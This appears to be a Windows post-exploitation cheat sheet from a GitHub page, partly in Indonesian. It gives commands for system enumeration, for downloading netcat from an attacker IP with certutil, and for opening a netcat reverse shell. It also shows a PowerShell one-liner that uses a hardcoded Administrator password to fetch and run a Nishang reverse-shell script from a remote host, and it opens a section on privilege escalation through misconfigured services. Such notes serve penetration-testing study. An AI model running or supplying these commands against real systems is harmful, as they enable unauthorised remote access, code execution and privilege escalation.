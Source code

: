 ## Check System Info --
~# systeminfo

## Download File From CMD (Not PowerShell) -- 
certutil.exe -urlcache -split -f "http://10.14.17.16:4545/nc.exe" %tmp%\nc.exe

### Reverse Shell
%tmp%\nc.exe IP PORT -e cmd

## Download File From PowerShell) -- 

(New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")  

## Reverse Shell With Nishang To Get Powershell --

## Windows  Exploit Suggester --

##Run Nishang As Administrator to get root! -- 
We must get low shell with nishang. Then run this command

Requirement : SeChangeNotifyPrivilege       Bypass traverse checking             Enabled

Check : whoami /all
PRIVILEGES INFORMATION                                                                                                                                                                                                            [319/687]
----------------------                                                                                                                                                                                                                     
                                                                                                                                                                                                                                           
Privilege Name                Description                          State                                                                                                                                                                   
============================= ==================================== ========                                                                                                                                                                
SeShutdownPrivilege           Shut down the system                 Disabled                                                                                                                                                                
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled  <<---                                                                                                                                                            
SeUndockPrivilege             Remove computer from docking station Disabled                                                                                                                                                                
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled                                                                                                                                                                
SeTimeZonePrivilege           Change the time zone                 Disabled 

Then run this command
$SecPass = ConvertTo-SecureString -AsPlainText -Force 'Welcome1!' 
$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)
Start-Process -Filepath "powershell" -argumentlist "IEX (New-Object Net.WebClient).downloadString('http://10.10.14.29/Invoke-PowershellTcp.ps1')" -Credential $cred

============================================

# Windows Privilege Escalation

## Insecure Service Permissions
Service merupakan program-program pada windows yang dijalankan pada background. Terkadang menerima input atau menjalankan sebuah task
Jika sebuah **service** dijalankan dengan privileges **SYSTEM** dan terdapat misconfiguration, maka kita bisa melakukan priv esc. 
